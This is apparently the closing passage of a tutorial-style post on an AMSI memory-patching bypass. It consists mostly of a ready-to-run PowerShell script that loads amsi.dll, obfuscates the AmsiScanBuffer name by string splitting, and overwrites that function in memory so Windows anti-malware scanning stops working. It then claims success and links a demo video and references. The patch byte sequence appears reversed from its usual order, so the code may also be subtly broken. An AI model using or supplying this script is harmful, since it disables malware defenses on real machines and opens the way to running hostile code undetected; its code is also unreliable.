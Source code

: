 ```c
$pinvoke_obj = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@
Add-Type $pinvoke_obj
$amsiDll = [WinApi]::LoadLibrary("ams"+"i.dll")
$funcAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScanB"+"uffer")
$patch = [Byte[]](0xc3,0x80,0x07,0x00,0x57,0xb8)
$out = 0
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $funcAddr, $patch.Length)
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, $out, [ref] $null)
```

We have successfully applied patch and bypassed the AMSI detection

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/my-CDN/main/AMSI-Memory-Patch/AMSI-Patch.mkv" type="video/mp4"/>
</video>

## References

[https://fluidattacks.com/blog/amsi-bypass/](https://fluidattacks.com/blog/amsi-bypass/)

[https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)
